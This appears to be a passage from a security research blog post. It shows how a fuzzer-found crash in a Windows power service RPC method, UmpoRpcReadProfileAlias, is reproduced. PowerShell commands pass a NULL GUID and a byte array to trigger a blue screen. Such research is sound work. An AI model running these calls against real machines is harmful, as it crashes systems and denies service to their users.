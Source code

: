 ![Output of the definition for the RPC method UmpoRpcReadProfileAlias](/assets/img/posts/unplugging-power-service/2.png)
_Output of the definition for the RPC method UmpoRpcReadProfileAlias_

It has the following defintion:

```c#
UmpoRpcReadProfileAlias(System.Nullable[guid] p0, byte[] p1, int p2)
```

To manually invoke the RPC call, we need to define a parameter type for `System.Nullable[guid]` and `byte[]` as follows:

We start by creating a Byte array with just random inputs:
```powershell
$bytearray = ([System.Text.Encoding]::UTF8.GetBytes("incendiumrocks"))
```

If we take another look at the last lines of the logfile, we can see what parameters it used to cause the BSOD. The first parameter (for the `System.Nullable[guid]`), shows an empty value. Which most likely is `NULL`. So why was it `NULL`?

The fuzzer uses an activator to dynamically create instances for complex parameters like `Struct` or `GUID`. And since this parameter is Nullable, it initiated `$Null` as value.

```powershell
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'UmpoRpcReadProfileAlias' }
$p0 = $method.GetParameters()[0]
$guid = [Activator]::CreateInstance($p0.ParameterType)
```
We can see that the `GUID` now is equal to `NULL`:
```powershell
$guid -eq $Null
True
```

Now we can invoke the RPC call just as the fuzzer did:
```powershell
$client.UmpoRpcReadProfileAlias($guid,$bytearray,1001337)
```

Which causes the BSOD again:
